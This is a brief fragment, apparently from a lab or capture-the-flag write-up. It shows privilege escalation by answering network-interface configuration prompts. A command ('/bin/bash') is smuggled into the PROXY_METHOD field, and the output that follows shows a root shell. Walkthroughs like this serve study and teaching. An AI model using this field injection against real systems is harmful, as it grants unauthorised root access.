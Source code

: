 > interface NAME:
> rocknrj
> interface PROXY_METHOD:              
> rocknrj /bin/bash                 # INJECTING HERE(CAN BE ANY OTHER INPUT TOO)
> interface BROWSER_ONLY:
> rocknrj
> interface BOOTPROTO:
> rocknrj
whoami
> root
```
- we enter as root